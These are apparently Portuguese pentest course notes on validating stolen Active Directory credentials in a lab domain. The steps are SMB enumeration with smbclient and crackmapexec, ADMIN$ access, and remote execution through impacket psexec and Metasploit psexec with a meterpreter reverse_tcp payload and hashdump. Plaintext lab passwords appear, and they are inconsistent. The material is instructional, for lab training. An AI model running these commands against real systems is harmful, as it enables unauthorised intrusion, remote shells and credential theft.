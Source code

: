 <h1 align="center">Validando credenciais - Parte 3 </h1>
<hr>

Uma vez que a gente conseguiu obter credenciais a gente precisa validar elas , saber oque a gente consegue fazer com esse nivel que conseguimos.

A primeira coisa que podemos fazer entao seria fazer uma enumercao usando o <span style='color:var(--mk-color-red)'>smbclient</span> 

```sh
smbclient -L \\<IP> -U usuario -W orionscorp2
```

```ad-note
Precisamos passar o dominio ! "-W"
```

Ok , conseguimos mapear no WKS da Fernanda , mas sera que conseguimos mapear esse tipo de teste no servidor?

```sh
smbclient -L \\<IP DO SERVIDOR> -U usuario -W orionscorp2
```

Outra coisa que podemos fazer tambem pra facilitar e ate ser mais rapido eh utilizar o <span style='color:var(--mk-color-red)'>crackmapexec</span> 

```sh
crackmapexec smb hosts -d <DOMINIO> -u <USUARIO> -p <SENHA>
```

Podemos tentar nos conectar agora aos diretorios

```sh
smbclient //<IPDOHOST>/ADMIN$ -U <USUARIO> -W orionscorp2
```

Essa eh uma primeira enumeracao que podemos fazer para comecarmos a ter uma ideia de  possiveis usuarios.

Agora podemos tentar um psexec no metasploit em um usuario com privilegios de comandos.
Tambem podemos usar o impacket

```sh
python3 /usr/share/doc/python3-impacket/examples/psexec.py orionscorp2/mfernanda:'Jesus123'@172.16.1.253
```
ou
```sh
msf5> search psexec
msf5> use exploit(windows/smb/psexec)
msf5> exploit(windows/smb/psexec) > set RHOSTS <IP>
msf5> exploit(windows/smb/psexec) > set SMBDomain orionscorp2
msf5> exploit(windows/smb/psexec) > set SMBUser mfernanda
msf5> exploit(windows/smb/psexec) > set SMBPass Jesus1999
msf5> exploit(windows/smb/psexec) > show targets
msf5> exploit(windows/smb/psexec) > exploit
msf5> exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp
msf5> exploit(windows/smb/psexec) > exploit
```

Agora sim , podemos ate usar o `sysinfo` e `hashdump` mas sabemos que nao sao os usuarios de dominio. Continuamos na proxima aula.


